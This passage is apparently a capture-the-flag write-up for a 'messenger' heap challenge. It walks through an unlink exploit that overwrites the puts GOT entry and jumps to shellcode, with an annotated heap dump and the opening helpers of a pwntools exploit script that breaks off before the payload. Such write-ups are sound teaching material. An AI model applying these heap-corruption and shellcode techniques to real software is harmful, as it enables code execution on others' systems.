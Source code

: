 * `0x602010` - `puts_got-8`
* `0x6020a8` - address of shellcode

I only put `\xeb\x16` on `0x6030a8` since the side-effect of `unlink`. `unlink` would put `buf_fd` on `buf_bk->bk`.

```
0x603000:      0x0000000000000018      0x0000000000603048           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603048
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000030           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000602010 <- buf_bk
0x6030c0:      shellcode
```

Therefore, if we put the **real shellcode** right on the `buf_fd`, our shellcode would be messed up. Use the `jmp 0x18` so that when calling `puts` it will jump to the address of **real shellcode** which is `0x6030c0`. Then... open the shell!


Final Exploit:

```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

r = process('./messenger')

def leave(size, msg):
    r.recvuntil('>>')
    r.sendline('L')
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.sendline(msg)

def change(idx, size, payload):
    r.recvuntil('>>')
    r.sendline('C')
    r.recvuntil('index :')
    r.sendline(str(idx))
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.send(payload)

def view(idx):
    r.recvuntil('>>')
    r.sendline('V')
    r.recvuntil('index :')
    r.sendline(str(idx))

def remove(idx):
    r.recvuntil('>>')
    r.sendline('R')
    r.recvuntil('index :')
    r.sendline(str(idx))

```